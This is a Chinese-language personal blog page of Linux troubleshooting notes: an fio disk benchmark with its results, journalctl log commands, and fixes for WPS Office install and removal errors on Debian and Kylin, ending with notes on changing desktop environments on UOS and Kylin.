<h4 id="如果你怀疑硬件不稳定，可以做fio测试"><a href="#如果你怀疑硬件不稳定，可以做fio测试" class="headerlink" title="如果你怀疑硬件不稳定，可以做fio测试"></a>如果你怀疑硬件不稳定，可以做fio测试</h4><figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br></pre></td><td class="code"><pre><span class="line">sudo apt install fio</span><br><span class="line">fio --name=test --filename=【/mnt/kingston】/testfile --size=<span class="number">2</span>G --rw=randrw --bs=<span class="number">4</span>k --runtime=<span class="number">60</span> --ioengine=libaio --iodepth=<span class="number">32</span> --direct=<span class="number">1</span></span><br><span class="line"></span><br><span class="line">记得把 /mnt/kingston/ 改成你 Kingston 分区的挂载路径。完成后可以删除 testfile。</span><br><span class="line"></span><br><span class="line"># 测试结果</span><br><span class="line">$ fio --name=test --filename=/media/jessie/<span class="number">08</span>F6C4E4F6C4D35C/testfile --size=<span class="number">2</span>G --rw=randrw --bs=<span class="number">4</span>k --runtime=<span class="number">60</span> --ioengine=libaio --iodepth=<span class="number">32</span> --direct=<span class="number">1</span>                                                                        <span class="number">1</span> ⨯</span><br><span class="line">test: (g=<span class="number">0</span>): rw=randrw, bs=(R) <span class="number">4096</span>B<span class="number">-4096</span>B, (W) <span class="number">4096</span>B<span class="number">-4096</span>B, (T) <span class="number">4096</span>B<span class="number">-4096</span>B, ioengine=libaio, iodepth=<span class="number">32</span></span><br><span class="line">fio<span class="number">-3.33</span></span><br><span class="line">Starting <span class="number">1</span> process</span><br><span class="line">test: Laying <span class="keyword">out</span> IO file (<span class="number">1</span> file / <span class="number">2048</span>MiB)</span><br><span class="line">Jobs: <span class="number">1</span> (f=<span class="number">1</span>): [m(<span class="number">1</span>)][<span class="number">100.0</span>%][r=<span class="number">206</span>MiB/s,w=<span class="number">207</span>MiB/s][r=<span class="number">52.6</span>k,w=<span class="number">53.0</span>k IOPS][eta <span class="number">00</span>m:<span class="number">00</span>s]</span><br><span class="line">test: (groupid=<span class="number">0</span>, jobs=<span class="number">1</span>): err= <span class="number">0</span>: pid=<span class="number">11152</span>: Sun Apr  <span class="number">6</span> <span class="number">11</span>:<span class="number">07</span>:<span class="number">52</span> <span class="number">2025</span></span><br><span class="line">  read: IOPS=<span class="number">51.6</span>k, BW=<span class="number">202</span>MiB/s (<span class="number">211</span>MB/s)(<span class="number">1023</span>MiB/<span class="number">5076</span>msec)</span><br><span class="line">    slat (usec): min=<span class="number">4</span>, max=<span class="number">164</span>, avg= <span class="number">6.86</span>, stdev= <span class="number">1.62</span></span><br><span class="line">    clat (usec): min=<span class="number">24</span>, max=<span class="number">1250</span>, avg=<span class="number">299.75</span>, stdev=<span class="number">30.30</span></span><br><span class="line">     lat (usec): min=<span class="number">30</span>, max=<span class="number">1256</span>, avg=<span class="number">306.61</span>, stdev=<span class="number">30.70</span></span><br><span class="line">    clat percentiles (usec):</span><br><span class="line">     |  <span class="number">1.00</span>th=[  <span class="number">251</span>],  <span class="number">5.00</span>th=[  <span class="number">265</span>], <span class="number">10.00</span>th=[  <span class="number">273</span>], <span class="number">20.00</span>th=[  <span class="number">281</span>],</span><br><span class="line">     | <span class="number">30.00</span>th=[  <span class="number">285</span>], <span class="number">40.00</span>th=[  <span class="number">293</span>], <span class="number">50.00</span>th=[  <span class="number">297</span>], <span class="number">60.00</span>th=[  <span class="number">302</span>],</span><br><span class="line">     | <span class="number">70.00</span>th=[  <span class="number">310</span>], <span class="number">80.00</span>th=[  <span class="number">318</span>], <span class="number">90.00</span>th=[  <span class="number">330</span>], <span class="number">95.00</span>th=[  <span class="number">343</span>],</span><br><span class="line">     | <span class="number">99.00</span>th=[  <span class="number">400</span>], <span class="number">99.50</span>th=[  <span class="number">437</span>], <span class="number">99.90</span>th=[  <span class="number">553</span>], <span class="number">99.95</span>th=[  <span class="number">676</span>],</span><br><span class="line">     | <span class="number">99.99</span>th=[  <span class="number">930</span>]</span><br><span class="line">   bw (  KiB/s): min=<span class="number">197288</span>, max=<span class="number">214160</span>, per=<span class="number">100.00</span>%, avg=<span class="number">206515.20</span>, stdev=<span class="number">5441.63</span>, samples=<span class="number">10</span></span><br><span class="line">   iops        : min=<span class="number">49322</span>, max=<span class="number">53540</span>, avg=<span class="number">51628.80</span>, stdev=<span class="number">1360.41</span>, samples=<span class="number">10</span></span><br><span class="line">  write: IOPS=<span class="number">51.7</span>k, BW=<span class="number">202</span>MiB/s (<span class="number">212</span>MB/s)(<span class="number">1025</span>MiB/<span class="number">5076</span>msec); <span class="number">0</span> zone resets</span><br><span class="line">    slat (usec): min=<span class="number">10</span>, max=<span class="number">236</span>, avg=<span class="number">11.65</span>, stdev= <span class="number">2.05</span></span><br><span class="line">    clat (nsec): min=<span class="number">835</span>, max=<span class="number">1247.6</span>k, avg=<span class="number">300786.92</span>, stdev=<span class="number">30478.12</span></span><br><span class="line">     lat (usec): min=<span class="number">12</span>, max=<span class="number">1259</span>, avg=<span class="number">312.44</span>, stdev=<span class="number">31.18</span></span><br><span class="line">    clat percentiles (usec):</span><br><span class="line">     |  <span class="number">1.00</span>th=[  <span class="number">253</span>],  <span class="number">5.00</span>th=[  <span class="number">265</span>], <span class="number">10.00</span>th=[  <span class="number">273</span>], <span class="number">20.00</span>th=[  <span class="number">281</span>],</span><br><span class="line">     | <span class="number">30.00</span>th=[  <span class="number">289</span>], <span class="number">40.00</span>th=[  <span class="number">293</span>], <span class="number">50.00</span>th=[  <span class="number">297</span>], <span class="number">60.00</span>th=[  <span class="number">306</span>],</span><br><span class="line">     | <span class="number">70.00</span>th=[  <span class="number">310</span>], <span class="number">80.00</span>th=[  <span class="number">318</span>], <span class="number">90.00</span>th=[  <span class="number">330</span>], <span class="number">95.00</span>th=[  <span class="number">343</span>],</span><br><span class="line">     | <span class="number">99.00</span>th=[  <span class="number">400</span>], <span class="number">99.50</span>th=[  <span class="number">437</span>], <span class="number">99.90</span>th=[  <span class="number">570</span>], <span class="number">99.95</span>th=[  <span class="number">685</span>],</span><br><span class="line">     | <span class="number">99.99</span>th=[ <span class="number">1123</span>]</span><br><span class="line">   bw (  KiB/s): min=<span class="number">198288</span>, max=<span class="number">214728</span>, per=<span class="number">100.00</span>%, avg=<span class="number">206810.40</span>, stdev=<span class="number">5278.43</span>, samples=<span class="number">10</span></span><br><span class="line">   iops        : min=<span class="number">49572</span>, max=<span class="number">53682</span>, avg=<span class="number">51702.60</span>, stdev=<span class="number">1319.61</span>, samples=<span class="number">10</span></span><br><span class="line">  lat (nsec)   : <span class="number">1000</span>=<span class="number">0.01</span>%</span><br><span class="line">  lat (usec)   : <span class="number">20</span>=<span class="number">0.01</span>%, <span class="number">50</span>=<span class="number">0.01</span>%, <span class="number">100</span>=<span class="number">0.01</span>%, <span class="number">250</span>=<span class="number">0.79</span>%, <span class="number">500</span>=<span class="number">98.99</span>%</span><br><span class="line">  lat (usec)   : <span class="number">750</span>=<span class="number">0.18</span>%, <span class="number">1000</span>=<span class="number">0.02</span>%</span><br><span class="line">  lat (msec)   : <span class="number">2</span>=<span class="number">0.01</span>%</span><br><span class="line">  cpu          : usr=<span class="number">6.42</span>%, sys=<span class="number">26.31</span>%, ctx=<span class="number">786649</span>, majf=<span class="number">0</span>, minf=<span class="number">13</span></span><br><span class="line">  IO depths    : <span class="number">1</span>=<span class="number">0.1</span>%, <span class="number">2</span>=<span class="number">0.1</span>%, <span class="number">4</span>=<span class="number">0.1</span>%, <span class="number">8</span>=<span class="number">0.1</span>%, <span class="number">16</span>=<span class="number">0.1</span>%, <span class="number">32</span>=<span class="number">100.0</span>%, &gt;=<span class="number">64</span>=<span class="number">0.0</span>%</span><br><span class="line">     submit    : <span class="number">0</span>=<span class="number">0.0</span>%, <span class="number">4</span>=<span class="number">100.0</span>%, <span class="number">8</span>=<span class="number">0.0</span>%, <span class="number">16</span>=<span class="number">0.0</span>%, <span class="number">32</span>=<span class="number">0.0</span>%, <span class="number">64</span>=<span class="number">0.0</span>%, &gt;=<span class="number">64</span>=<span class="number">0.0</span>%</span><br><span class="line">     complete  : <span class="number">0</span>=<span class="number">0.0</span>%, <span class="number">4</span>=<span class="number">100.0</span>%, <span class="number">8</span>=<span class="number">0.0</span>%, <span class="number">16</span>=<span class="number">0.0</span>%, <span class="number">32</span>=<span class="number">0.1</span>%, <span class="number">64</span>=<span class="number">0.0</span>%, &gt;=<span class="number">64</span>=<span class="number">0.0</span>%</span><br><span class="line">     issued rwts: total=<span class="number">261946</span>,<span class="number">262342</span>,<span class="number">0</span>,<span class="number">0</span> short=<span class="number">0</span>,<span class="number">0</span>,<span class="number">0</span>,<span class="number">0</span> dropped=<span class="number">0</span>,<span class="number">0</span>,<span class="number">0</span>,<span class="number">0</span></span><br><span class="line">     latency   : target=<span class="number">0</span>, window=<span class="number">0</span>, percentile=<span class="number">100.00</span>%, depth=<span class="number">32</span></span><br><span class="line"></span><br><span class="line">Run status group <span class="number">0</span> (all jobs):</span><br><span class="line">   READ: bw=<span class="number">202</span>MiB/s (<span class="number">211</span>MB/s), <span class="number">202</span>MiB/s<span class="number">-202</span>MiB/s (<span class="number">211</span>MB/s<span class="number">-211</span>MB/s), io=<span class="number">1023</span>MiB (<span class="number">1073</span>MB), run=<span class="number">5076</span><span class="number">-5076</span>msec</span><br><span class="line">  WRITE: bw=<span class="number">202</span>MiB/s (<span class="number">212</span>MB/s), <span class="number">202</span>MiB/s<span class="number">-202</span>MiB/s (<span class="number">212</span>MB/s<span class="number">-212</span>MB/s), io=<span class="number">1025</span>MiB (<span class="number">1075</span>MB), run=<span class="number">5076</span><span class="number">-5076</span>msec</span><br><span class="line"></span><br><span class="line">Disk stats (read/write):</span><br><span class="line">  nvme0n1: ios=<span class="number">0</span>/<span class="number">11730</span>, merge=<span class="number">0</span>/<span class="number">10799</span>, ticks=<span class="number">0</span>/<span class="number">414</span>, in_queue=<span class="number">413</span>, util=<span class="number">2.31</span>%</span><br><span class="line">  </span><br><span class="line">  </span><br><span class="line"># 分析</span><br><span class="line">✅ 你的 Kingston 磁盘当前读写表现 非常好</span><br><span class="line">fio 测试总结（/dev/nvme0n1）：</span><br><span class="line">项目	值</span><br><span class="line">读取带宽	<span class="number">202</span> MiB/s ≈ <span class="number">211</span> MB/s</span><br><span class="line">写入带宽	<span class="number">202</span> MiB/s ≈ <span class="number">212</span> MB/s</span><br><span class="line">IOPS（随机<span class="number">4</span>K读/写）	<span class="number">51.6</span>k / <span class="number">51.7</span>k</span><br><span class="line">平均延迟（clat）	<span class="number">299</span>–<span class="number">300</span> µs，极低</span><br><span class="line">错误（err）	err=<span class="number">0</span> → 无错误</span><br><span class="line">CPU 占用	usr=<span class="number">6.42</span>%, sys=<span class="number">26.31</span>%，IO引擎效率也正常</span><br><span class="line">延迟百分位	<span class="number">99.95</span>% 的 IO 延迟 &lt; <span class="number">700</span>µs，说明磁盘反应非常稳定</span><br><span class="line">fio命令	使用 --direct=<span class="number">1</span> 直写模式，绕过缓存，测试真实磁盘</span><br></pre></td></tr></table></figure>
<h3 id="查看开关机的journalctl历史日志"><a href="#查看开关机的journalctl历史日志" class="headerlink" title="查看开关机的journalctl历史日志"></a>查看开关机的<code>journalctl</code>历史日志</h3><h4 id="筛选出优先级为-错误级别（priority-3）及以上-的日志"><a href="#筛选出优先级为-错误级别（priority-3）及以上-的日志" class="headerlink" title="筛选出优先级为 错误级别（priority 3）及以上 的日志"></a>筛选出优先级为 <strong>错误级别（priority 3）及以上</strong> 的日志</h4><p><code>sudo journalctl -p 3 -r</code></p>
<figure class="highlight markdown"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br></pre></td><td class="code"><pre><span class="line"><span class="code">`sudo journalctl -p 3 -r`</span> 是一个命令，用于从系统日志中筛选出优先级为 <span class="strong">**错误级别（priority 3）及以上**</span> 的日志，并按 <span class="strong">**时间倒序（-r）**</span> 显示，即显示最新的错误日志。</span><br><span class="line"><span class="section">### 具体说明：</span></span><br><span class="line"><span class="bullet">- </span><span class="strong">**`journalctl`**</span>：是用于查看和查询系统日志的工具，基于 <span class="code">`systemd`</span> 日志系统。</span><br><span class="line"><span class="bullet">- </span><span class="strong">**`-p 3`**</span>：表示筛选出 <span class="strong">**优先级为 3（错误级别，Error）及更高**</span> 的日志。<span class="code">`-p`</span> 后面的数字代表日志的优先级，常见的优先级如下：</span><br><span class="line"><span class="bullet">  - </span><span class="strong">**0**</span>：紧急（emergency）</span><br><span class="line"><span class="bullet">  - </span><span class="strong">**1**</span>：警报（alert）</span><br><span class="line"><span class="bullet">  - </span><span class="strong">**2**</span>：严重（critical）</span><br><span class="line"><span class="bullet">  - </span><span class="strong">**3**</span>：错误（error）</span><br><span class="line"><span class="bullet">  - </span><span class="strong">**4**</span>：警告（warning）</span><br><span class="line"><span class="bullet">  - </span><span class="strong">**5**</span>：通知（notice）</span><br><span class="line"><span class="bullet">  - </span><span class="strong">**6**</span>：信息（info）</span><br><span class="line"><span class="bullet">  - </span><span class="strong">**7**</span>：调试（debug）</span><br><span class="line">  使用 <span class="code">`-p 3`</span> 后，意味着只会显示错误级别及更高的日志（错误、严重、警报、紧急）。</span><br><span class="line"><span class="bullet">- </span><span class="strong">**`-r`**</span>：表示按 <span class="strong">**倒序**</span>（reverse）显示日志，即显示最新的日志。</span><br><span class="line"><span class="section">### 例子：</span></span><br><span class="line">运行 <span class="code">`sudo journalctl -p 3 -r`</span> 后，你会看到系统中所有错误级别及更高优先级的日志，按时间从最新到最旧排列。通常这些日志涉及到严重的系统问题，如崩溃、驱动错误、硬件问题等。</span><br><span class="line"></span><br><span class="line"><span class="section">### 使用场景：</span></span><br><span class="line"><span class="bullet">- </span>用于快速查看系统中是否存在较为严重的错误或问题。</span><br><span class="line"><span class="bullet">- </span>排查系统崩溃或服务故障时，通过筛选高优先级日志，可以更容易定位问题。</span><br><span class="line">如果你看到很多错误日志，可能意味着有硬件问题、软件故障或配置错误等。</span><br></pre></td></tr></table></figure>
<h4 id="查看上次启动的日志"><a href="#查看上次启动的日志" class="headerlink" title="查看上次启动的日志"></a>查看上次启动的日志</h4><p><code>sudo journalctl -b -1</code></p>
<h4 id="查看关机日志"><a href="#查看关机日志" class="headerlink" title="查看关机日志"></a>查看关机日志</h4><p><code>sudo journalctl -b -1 -u systemd-shutdownd</code></p>
<h4 id="导出每次开关机的单独日志"><a href="#导出每次开关机的单独日志" class="headerlink" title="导出每次开关机的单独日志"></a>导出每次开关机的单独日志</h4><p><code>sudo journalctl -b -1 &gt; /path/to/logs/boot-$(date --date=&#39;yesterday&#39; +%Y-%m-%d).log</code></p>
<h3 id="Debian12-中-WPS-Linux-导出PDF过程中出现错误"><a href="#Debian12-中-WPS-Linux-导出PDF过程中出现错误" class="headerlink" title="Debian12 中 WPS Linux 导出PDF过程中出现错误"></a>Debian12 中 WPS Linux 导出PDF过程中出现错误</h3><p>在arch wiki中有相关的解决方法：wps 的与pdf文档相关的功能都是由wpspdf完成的，而wpspdf依赖 libtiff5.so.5 。所以安装libtiff5aur包即可解决。</p>
<p><code>sudo apt install libtiff5</code></p>
<p>如果没有的：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">cd /usr/lib/x86_64-linux-gnu</span><br><span class="line"></span><br><span class="line">ll |grep tiff</span><br><span class="line">lrwxrwxrwx  <span class="number">1</span> root root    <span class="number">16</span> <span class="number">2023</span>年<span class="number">11</span>月<span class="number">23</span>日 libtiff.so<span class="number">.6</span> -&gt; libtiff.so<span class="number">.6</span><span class="number">.0</span><span class="number">.0</span></span><br><span class="line">-rw-r--r--  <span class="number">1</span> root root  <span class="number">555</span>K <span class="number">2023</span>年<span class="number">11</span>月<span class="number">23</span>日 libtiff.so<span class="number">.6</span><span class="number">.0</span><span class="number">.0</span></span><br><span class="line"></span><br><span class="line"># 修复</span><br><span class="line">sudo ln -s libtiff.so<span class="number">.6</span><span class="number">.0</span><span class="number">.0</span> libtiff.so<span class="number">.5</span></span><br></pre></td></tr></table></figure>
<h3 id="银河麒麟WPS卸载出错已安装wps-office-软件包pre-removal脚本子进程返回错误状态2"><a href="#银河麒麟WPS卸载出错已安装wps-office-软件包pre-removal脚本子进程返回错误状态2" class="headerlink" title="银河麒麟WPS卸载出错已安装wps-office 软件包pre- removal脚本子进程返回错误状态2"></a>银河麒麟WPS卸载出错<code>已安装wps-office 软件包pre- removal脚本子进程返回错误状态2</code></h3><figure class="highlight stata"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br></pre></td><td class="code"><pre><span class="line">sudo apt remove Wps-office</span><br><span class="line">正在读取软件包列表...完成</span><br><span class="line">正在分析软件包的依赖关系树</span><br><span class="line">正在读取状态信息...完成</span><br><span class="line">下列软件包将被[卸载] :</span><br><span class="line">wps-office</span><br><span class="line">升级了0个软件包，新安装了0个软件包，要卸载1个软件包，有0个软件包未被升级。</span><br><span class="line">解压缩后将会空出1,945 MB的空间。</span><br><span class="line">您希望继续执行吗?[Y/<span class="keyword">n</span>]</span><br><span class="line">(正在读取数据库</span><br><span class="line">系统当前共安装有527592 个文件和目录。)</span><br><span class="line">正在卸载wps-office (11.8.2.12219. AK. preload . <span class="keyword">Sw</span>)</span><br><span class="line">python3: can't <span class="keyword">open</span> <span class="keyword">file</span> ' /opt/kingsoft/wps-office/INSTALL/delmime_ python3.py': [Errno 2] <span class="keyword">No</span> such <span class="keyword">file</span> or directorydpkg: 处理软件包wps-office (-- remove)时出错:</span><br><span class="line">已安装wps-office 软件包pre- removal脚本子进程返回错误状态2</span><br><span class="line">dpkg: 出现过多错误，正在停止</span><br><span class="line">在处理时有错误发生:</span><br><span class="line">wps-office</span><br><span class="line">由于出现了太多错误，处理过程被中止了。</span><br><span class="line"><span class="keyword">E</span>: Sub-process /usr/bin/dpkg returned <span class="keyword">an</span> <span class="keyword">error</span> code (1)</span><br></pre></td></tr></table></figure>
<p>解决：强行卸载。</p>
<p><code>sudo mv /var/lib/dpkg/info/wps-office.prerm /var/lib/dpkg/info/wps-office.prerm.bak</code></p>
<p>随后：</p>
<p><code>sudo dpkg --remove --force-remove-reinstreq wps-office</code></p>
<figure class="highlight jboss-cli"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">原理：</span><br><span class="line"><span class="string">/var/lib/dpkg/info/wps-office.prerm</span>：这个是 WPS Office 的 prerm 脚本（pre-removal script），它在软件卸载前运行。</span><br><span class="line"><span class="string">/var/lib/dpkg/info/wps-office.prerm.bak</span>：将原 prerm 脚本重命名为 <span class="string">.bak</span>，相当于备份并防止它被执行。</span><br><span class="line">目的：如果 prerm 脚本有错误，可能会导致 dpkg <span class="params">--remove</span> 失败，所以手动禁用它。</span><br><span class="line">dpkg <span class="params">--remove</span> wps-office：尝试卸载 WPS Office，但不会删除其配置文件。</span><br><span class="line"><span class="params">--force-remove-reinstreq</span>：强制删除“需要重新安装”的软件包（即那些处于损坏状态的软件）。</span><br><span class="line">sudo apt update</span><br><span class="line">sudo apt <span class="params">--fix-broken</span> install</span><br></pre></td></tr></table></figure>
<h3 id="银河麒麟WPS安装出错python3-can-39-t-open-file-39-opt-kingsoft-wps-office-INSTALL-delmime-python3-py-39-Errno-2-No-such-file-or-directory"><a href="#银河麒麟WPS安装出错python3-can-39-t-open-file-39-opt-kingsoft-wps-office-INSTALL-delmime-python3-py-39-Errno-2-No-such-file-or-directory" class="headerlink" title="银河麒麟WPS安装出错python3: can&#39;t open file &#39; /opt/kingsoft/wps -office/INSTALL/delmime_ python3.py&#39;: [Errno 2] No such file or directory"></a>银河麒麟WPS安装出错<code>python3: can&#39;t open file &#39; /opt/kingsoft/wps -office/INSTALL/delmime_ python3.py&#39;: [Errno 2] No such file or directory</code></h3><figure class="highlight yaml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br></pre></td><td class="code"><pre><span class="line"><span class="string">sudo</span> <span class="string">apt</span> <span class="string">install</span> <span class="string">.</span> <span class="string">/wps-office</span> <span class="number">12.8</span><span class="number">.2</span><span class="number">.20327</span><span class="string">.</span> <span class="string">AK.</span> <span class="string">preload.</span> <span class="string">sW</span> <span class="string">arm64.</span> <span class="string">deb</span></span><br><span class="line"><span class="string">正在读取软件包列表...完成</span></span><br><span class="line"><span class="string">正在分析软件包的依赖关系树</span></span><br><span class="line"><span class="string">正在读取状态信息....</span> <span class="string">完成</span></span><br><span class="line"><span class="string">注意，选中'wps-office'</span> <span class="string">而非'</span> <span class="string">./wps-office_</span> <span class="number">12.8</span><span class="number">.2</span><span class="number">.20327</span><span class="string">.AK.</span> <span class="string">preload.</span> <span class="string">sw_</span> <span class="string">_arm64.</span> <span class="string">deb</span> <span class="string">'</span></span><br><span class="line"><span class="string">下列[新]软件包将被安装:</span></span><br><span class="line"><span class="string">wps-office</span></span><br><span class="line"><span class="string">升级了θ个软件包，新安装了1个软件包，要卸载日个软件包，有0个软件包未被升级。</span></span><br><span class="line"><span class="string">需要下载0 B/793 MB的归档。</span></span><br><span class="line"><span class="string">解压缩后会消耗3,330 MB的额外空间。</span></span><br><span class="line"><span class="string">获取:1 /home/ ryan/下载/wps-office_ 12.8.2.20327.AK. preload. SW_ arm64.deb wps-office arm64 12.8.2.20327.AK. preload.sw [793 MB]</span></span><br><span class="line"><span class="string">(正在读取数据库...系统当前共安装有522289 个文件和目录。)</span></span><br><span class="line"><span class="string">准备解压.../wps-office_ 12.8.2.20327. AK. preload . sW_ _arm64. deb</span></span><br><span class="line"><span class="string">python3: can'</span><span class="string">t</span> <span class="string">open</span> <span class="string">file</span> <span class="string">' /opt/kingsoft/wps -office/INSTALL/delmime_ python3.py'</span><span class="string">:</span> <span class="string">[Errno</span> <span class="number">2</span><span class="string">]</span> <span class="literal">No</span> <span class="string">such</span> <span class="string">file</span> <span class="string">or</span> <span class="string">directory</span></span><br><span class="line"><span class="attr">dpkg:</span> <span class="string">处理归档/home/</span> <span class="string">ryan/下载/wps</span> <span class="string">-office_</span> <span class="number">12.8</span><span class="number">.2</span><span class="number">.20327</span><span class="string">.AK.</span> <span class="string">preload.</span> <span class="string">SW_</span> <span class="string">_arm64.</span> <span class="string">deb</span> <span class="string">(--unpack)时出错:</span></span><br><span class="line"><span class="string">新的wps-office</span> <span class="string">软件包pre-</span> <span class="string">installation脚本子进程返回错误状态2</span></span><br><span class="line"><span class="string">在处理时有错误发生:</span></span><br><span class="line"><span class="string">/home/ryan/下载/wps-office_</span> <span class="number">12.8</span><span class="number">.2</span><span class="string">.</span> <span class="number">20327.</span><span class="string">AK.</span> <span class="string">preload.</span> <span class="string">sw_</span> <span class="string">arm64.</span> <span class="string">deb</span></span><br><span class="line"><span class="attr">N:</span> <span class="string">由于文件'/home/</span> <span class="string">ryan/下载/wps</span> <span class="string">-office_</span> <span class="number">12.8</span><span class="number">.2</span><span class="number">.20327</span><span class="string">.AK.preload.</span> <span class="string">sw_</span> <span class="string">_arm64.deb'无法被用户'_</span> <span class="string">apt'访问，</span> <span class="string">已脱离沙盒并提权为根用户来进行下载。pkgAcquire:</span> <span class="string">:Run</span> <span class="string">(13:</span> <span class="string">权限不够)</span></span><br><span class="line"><span class="attr">E:</span> <span class="string">Sub-process</span> <span class="string">/usr/bin/dpkg</span> <span class="string">returned</span> <span class="string">an</span> <span class="string">error</span> <span class="string">code</span> <span class="string">(1)</span></span><br><span class="line"></span><br><span class="line"><span class="string">sudo</span> <span class="string">apt</span> <span class="string">install</span> <span class="string">-f</span></span><br><span class="line"><span class="string">正在读取软件包列表...完成</span></span><br><span class="line"><span class="string">正在分析软件包的依赖关系树</span></span><br><span class="line"><span class="string">正在读取状态信息...完成</span></span><br><span class="line"><span class="string">升级了0个软件包，新安装了0个软件包，要卸载0个软件包，有0个软件包未被升级。</span></span><br><span class="line"></span><br><span class="line"><span class="string">解决：解压DEB包，找到delmime_</span> <span class="string">python3.py复制到/opt/kingsoft/wps</span> <span class="string">-office/INSTALL/delmime_</span> <span class="string">python3.py，重新运行apt安装即可。</span></span><br></pre></td></tr></table></figure>
<h3 id="WPS：dlopen-opt-kingsoft-wps-office-office6-libkprometheus-so-failed-error-libcrypto-so-1-1-无法打开共享对象文件-没有那个文件或目录"><a href="#WPS：dlopen-opt-kingsoft-wps-office-office6-libkprometheus-so-failed-error-libcrypto-so-1-1-无法打开共享对象文件-没有那个文件或目录" class="headerlink" title="WPS：dlopen /opt/kingsoft/wps-office/office6/libkprometheus.so failed , error: libcrypto.so.1.1: 无法打开共享对象文件: 没有那个文件或目录"></a>WPS：<code>dlopen /opt/kingsoft/wps-office/office6/libkprometheus.so failed , error: libcrypto.so.1.1: 无法打开共享对象文件: 没有那个文件或目录</code></h3><blockquote>
<p><a href="https://askubuntu.com/questions/1403055/error-libcrypto-so-1-1-could-not-open-while-try-run-wps-office-on-ubuntu-22-04" target="_blank" rel="noopener">https://askubuntu.com/questions/1403055/error-libcrypto-so-1-1-could-not-open-while-try-run-wps-office-on-ubuntu-22-04</a></p>
</blockquote>
<p>解决：进入WPS Linux安装目录执行：<code>sudo chmod 755 libcrypto.so.1.1</code>和<code>sudo chmod 755 libssl.so.1.1</code>即可。</p>
<h3 id="国产系统（华为ARM芯片-UOS统信或者银河麒麟）"><a href="#国产系统（华为ARM芯片-UOS统信或者银河麒麟）" class="headerlink" title="国产系统（华为ARM芯片+UOS统信或者银河麒麟）"></a>国产系统（华为ARM芯片+UOS统信或者银河麒麟）</h3><blockquote>
<p>以下是在华为鲲鹏920(8)+UOS(ARM)下测试的结果</p>
<p><a href="https://www.kancloud.cn/desktop/lv100/2735643" target="_blank" rel="noopener">https://www.kancloud.cn/desktop/lv100/2735643</a></p>
</blockquote>
<h4 id="更换桌面环境"><a href="#更换桌面环境" class="headerlink" title="更换桌面环境"></a>更换桌面环境</h4><p>目前UOS下，GNOME我用不了，KDE和fluxbox可以用。讲真的，DDE很不稳定。</p>
<p>安装KDE：<code>sudo apt install kde-plasma-desktop</code></p>
<p>窗口管理器请保持原来的<code>lightdm</code>！</p>
<p>银河麒麟换桌面也是可以，但是不能注销登陆，也就是说要设置开机自动登陆</p>
<h4 id="解决银河麒麟v10-sp1更换桌面环境后无法登陆的问题"><a href="#解决银河麒麟v10-sp1更换桌面环境后无法登陆的问题" class="headerlink" title="解决银河麒麟v10 sp1更换桌面环境后无法登陆的问题"></a>解决银河麒麟v10 sp1更换桌面环境后无法登陆的问题</h4><blockquote>
<p>原理：修改lightdm的gteeter即可（自己摸索的办法）</p>
</blockquote>
